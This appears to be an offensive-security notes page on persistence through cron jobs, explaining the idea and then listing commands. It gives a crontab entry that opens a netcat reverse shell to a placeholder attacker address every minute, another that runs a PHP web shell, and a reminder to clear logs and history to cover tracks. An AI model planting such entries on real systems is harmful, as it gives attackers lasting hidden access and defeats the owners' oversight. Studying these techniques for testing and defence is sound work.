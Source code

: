 
## General

In computer systems, a cron job is a task that is scheduled to run automatically at a specified time or interval. Cron jobs are typically used to perform system maintenance tasks, such as backing up data or updating system software.

Persistence exploitation refers to the use of a vulnerability in a system to allow an attacker to maintain a persistent presence on the system, even after the system has been restarted or the attacker has been disconnected. This can be achieved through the use of cron jobs by scheduling a task to run at regular intervals and establish a connection back to the attacker's system.

For example, an attacker could exploit a vulnerability in a web server to install a cron job that runs a script every hour to establish a reverse shell connection back to the attacker's system. This would allow the attacker to maintain access to the compromised system even if the web server is restarted or the attacker's initial connection is terminated.


## Commands

Check the cron jobs running & Edit the crons jobs
```
cat /etc/crontab

* * * * * nc -e /bin/bash Attacker_IP PORT 2>/dev/null  ---> Every minutes

or run a file where you might have a reverse sheel

* * * * * php -f /var/www/html/Evilbackup.php ---> Check Web shell section for more information
```
- Not very anonymous since administrator can see IP in the script



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===
